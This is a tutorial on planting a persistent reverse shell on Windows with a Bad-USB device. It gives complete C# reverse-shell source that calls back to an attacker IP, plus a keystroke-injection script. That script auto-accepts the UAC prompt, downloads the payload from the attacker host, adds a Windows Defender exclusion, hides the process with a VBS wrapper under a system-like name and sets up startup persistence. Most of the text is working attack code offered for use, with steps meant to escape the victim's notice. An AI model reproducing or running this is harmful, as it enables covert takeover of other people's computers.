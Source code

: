 

## Presistent reverse shell

A reverse shell is great, but what if he stayed, no matter what? Using a Bad-USB of any kind, you can inject a payload to create a persistent reverse shell.

### The shell

First, we need our shell. This will be an executable written in `dotnet core 3.1`:

```C#
﻿using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;
using System.Threading;

namespace Shell1
{
    class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            while (true)// keep going
            {
                try
                {
                    connect();
                }
                catch { }
                
                Thread.Sleep(60000); //wait a minute before reconnecting
            }
        }

        private static void connect()
        {
            using(TcpClient client = new TcpClient("192.168.241.1", 8090)) //connect to attacker
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe"; //use cmd, so it becauses a shell
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);// show the output
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch { }
            }
        }
    }
}
```

This code creates a reverse shell to the gives IP address, which is restarted every minute after closing. But this program has to be started by a user after every reboot. And the users won't just trust every program, so we need something to get the executable on the victim's system without their knowledge. Here the Bad-USB comes into play. For this example I used my WHID-Cactus, but it can be rewritten and used on any Bad-USB.

```whid
Press:131+114
Print:powershell
Press:128+129+176
Press:216+176
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
exit
```

This little piece of code will make the perfect shell. Let's look at it line by line.

```whid
Press:131+114
```

This simulates a key-press by using Arduino keyboard-codes. `131` is the Windows-key and `114` is the letter 'r'. This will open the `Run` box on windows, allowing you to start an executable.

```whid
Print:powershell
```

This just types powershell into the `Run` box without an `enter` key pressed.

```whid
Press:128+129+176
Press:216+176
```

The first line uses the Arduino codes again to press `control`, `shift` and `enter`. This will run the given command (`powershell`) as administrator, we need this to disable Windows Defender. The second line will type the left arrow and `enter`, so that the UAC (admin-prompt) is answered with `yes`.

```powershell
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
```

This is where the juicy stuff starts, first we download the `shell.exe` and a `vb` script called `invis.vbs`.

```vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
```

Why do we need this? This little script runs an executable completely hidden. Only far into taskmanager can you find the process, but nobody expects a process called `wincore` to be evil.

Both files are downloaded into `C:\users\{user}\AppData\Local\Microsoft\Windows\0\`, a folder very little people dare to even open, this is just another step to make the shell look like a windows process to "normal" people.

```powershell
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
```

This line is the reason that powershell must start with privileges, this line makes a exclusion in Defender for all the processes named `wincore.exe`. This allows the shell to run without any interjection from Windows Defender.

```powershell
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
```

And lastly, we create a shortcut in `C:\users\{user}\AppDate\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`. Everything executable or shortcut in this folder is run after the user logs in. This way we can start our shell every time the system boots. This does not run the shell yet, however if you want to run it immediately, you can just add this line to the script:

```powershell
PrinteLine:C:\Windows\System32\wscript.exe "C:\Users\admin\AppData\Roaming\..\Local\Microsoft\Windows\0\start.vbs" "C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe"
```
This is simply the content of the shortcut.

We end the script with `exit`, so the user does not see that something is up. Currenty, the script consists of multiple lines executed in powershell, but if it is rewritten to one powershell command that runs in the background, this injection can take only a few seconds to be ready. The execution then happens on the background, even when the usb is pulled out.